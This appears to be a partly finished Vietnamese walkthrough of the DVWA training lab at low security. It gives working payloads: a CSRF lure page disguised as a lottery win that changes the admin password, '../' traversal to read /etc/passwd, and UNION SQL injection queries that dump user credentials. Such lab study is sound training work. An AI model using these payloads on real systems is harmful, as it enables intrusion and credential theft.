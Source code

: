# DVWA - Security Level: Low

## 1. Brute Force  
Su dung BurpSuite bat request khi thuc hien dang nhap:  
![Brute Forces_1](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/Brute%20Forces_1.png)  
Su dung tinh nang **Intruder**, thu bruteforces voi tai khoan **admin**:  
![Brute Forces_2](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/Brute%20Forces_2.png)  
Ket qua:  
![Brute Forces_3](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/Brute%20Forces_3.png)  
Tai khoan: **admin**  
Mat khau: **password**  
## 2. Command Injection  
Nhap **8.8.8.8** vao input box:  
![Command Injection_1](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/Command%20Injection_1.png)  
Chuc nang **Ping a device** thuc hien cau lenh **ping -c 4**, thu su dung ky tu **';'** de ket hop voi cac cau lenh khac:  
![Command Injection_2](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/Command%20Injection_2.png)  
## 3. CSRF  
Khi su dung chuc nang **Change your admin password**, he thong se gui GET request nhu sau:  
![CSRF_1](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/CSRF_1.png)  
Trong GET request chi co thong tin ve PHPSESSID de xac dinh xem user nao dang gui request. Tao mot trang web index.html nhu sau:  
```
<!DOCTYPE html>
<html lang = "en">
<head>
  <meta charset = "UTF-8">
  <title> Vietlott </title>
</head>
<body>
  <h1> Chuc mung ban da trung Vietlott 100.000.000.000 VND </h1>
  <img style="display:none" src="http://127.0.0.1/DVWA/vulnerabilities/csrf/?password_new=abc123&password_conf=abc123&Change=Change" alt="">
</body>
</html>
```  
Khi nguoi dung truy cap vao trang web tren se kich hoat HTTP request toi chuc nang **Change your admin password** cua **DVWA**, neu nguoi dung dang truy cap trang **DVWA** voi tai khoan **admin**, trinh duyet se tu dong su dung PHPSESSID cua nguoi dung de gui request thay doi mat khau thanh **abc123**.  
Kiem tra lai tai khoan **admin** voi mat khau **abc123**  
![CSRF_2](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/CSRF_2.png)
## 4. File Inclusion  

```
http://127.0.0.1/DVWA/vulnerabilities/fi/?page=file1.php
http://127.0.0.1/DVWA/vulnerabilities/fi/?page=file2.php
http://127.0.0.1/DVWA/vulnerabilities/fi/?page=file3.php
```  
Duong dan **/?page=** se tro den 1 file tren server, vi vay ta co the thu truy cap toi cac file khac tren server (vi du /etc/passwd) bang cach the, **../** vao URL nhu sau:
```
http://127.0.0.1/DVWA/vulnerabilities/fi/?page=../../../../../../etc/passwd
```  
![File Inclusion_1](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/File%20Inclusion_1.png)  
## 5. File Upload  

## 6. Insecure Captcha  

## 7. SQL Injection  
Nhap thu **"1"** vao input box:  
![SQL Injection_1](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/SQL%20Injection_1.png)  
Khi nhap **User ID = 1** trang web se tra ve thong tin cua **ID, First name, Surname**, vi vay cau lenh query co the la:  
**SELECT first_name, last_name FROM users WHERE user_id = id;**  
Thu kiem tra so column cua cau lenh query bang canh nhap **'UNION ODER BY 2--**  
![SQL Injection_2](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/SQL%20Injection_2.png)  
Kiem tra cac table trong database bang lenh query:  
**' UNION SELECT null, table_name FROM INFORMATION_SCHEMA.TABLES-- -**  
![SQL Injection_3](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/SQL%20Injection_3.png)  
Co table **users**, kiem tra cac column trong table **users** bang lenh query:  
**' UNION SELECT null, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema = 'dvwa' and table_name = 'users'-- -**    
![SQL Injection_4](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/SQL%20Injection_4.png)  
Trong table **user** co 2 column **user, password**, kiem tra 2 columns bang lenh query:  
**' UNION SELECT user, password FROM users-- -**  
![SQL Injection_5](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/SQL%20Injection_5.png)  
Ta co cac thong tin ve **user, password**, **password** dang duoc ma hoa MD5. Sau khi giai ma:  
**admin - password  
gordonb - abc123  
1337 - charley  
pablo - letmein  
smithy - password**  
## 8. SQL Injection (Blind)  

## 9. Weak Session IDs  

## 10. XSS (DOM)  
    
## 11. XSS (Reflected)  
    
## 12. XSS (Stored)  

## 13. CSP Bypass  

## 14. JavaScript  
